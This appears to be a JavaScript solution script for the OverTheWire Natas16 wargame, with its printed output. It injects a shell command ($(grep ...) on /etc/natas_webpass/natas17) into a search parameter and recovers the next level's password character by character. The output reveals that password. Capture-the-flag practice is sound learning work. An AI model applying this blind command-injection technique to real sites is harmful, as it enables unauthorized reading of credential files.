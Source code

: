 ```javascript
async function req(ch) {
    const res = await axios.get(`http://natas16.natas.labs.overthewire.org/?needle=submit%24%28grep+-e+%5E${ch}+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search`, {headers});
    if(res.data.includes('resubmitting')) {
        return false;
    } else {
        return true;
    }
}

async function calc() {
    const alphanum = 'QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890';
    let ans = '';
    
    for(let i=0; i<alphanum.length; i++) {
        let val = await req(ans + alphanum[i]);
        if(val) {
            ans += alphanum[i];
            console.log(ans);
            i = -1;
        }
    }
    console.log('fin');
}

calc();

app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`));

// Outputs:
// Example app listening at http://localhost:3000
// 8
// 8P
// 8Ps
// 8Ps3
// 8Ps3H
// 8Ps3H0
// 8Ps3H0G
// 8Ps3H0GW
// 8Ps3H0GWb
// 8Ps3H0GWbn
// 8Ps3H0GWbn5
// 8Ps3H0GWbn5r
// 8Ps3H0GWbn5rd
// 8Ps3H0GWbn5rd9
// 8Ps3H0GWbn5rd9S
// 8Ps3H0GWbn5rd9S7
// 8Ps3H0GWbn5rd9S7G
// 8Ps3H0GWbn5rd9S7Gm
// 8Ps3H0GWbn5rd9S7GmA
// 8Ps3H0GWbn5rd9S7GmAd
// 8Ps3H0GWbn5rd9S7GmAdg
// 8Ps3H0GWbn5rd9S7GmAdgQ
// 8Ps3H0GWbn5rd9S7GmAdgQN
// 8Ps3H0GWbn5rd9S7GmAdgQNd
// 8Ps3H0GWbn5rd9S7GmAdgQNdk
// 8Ps3H0GWbn5rd9S7GmAdgQNdkh
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
// 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```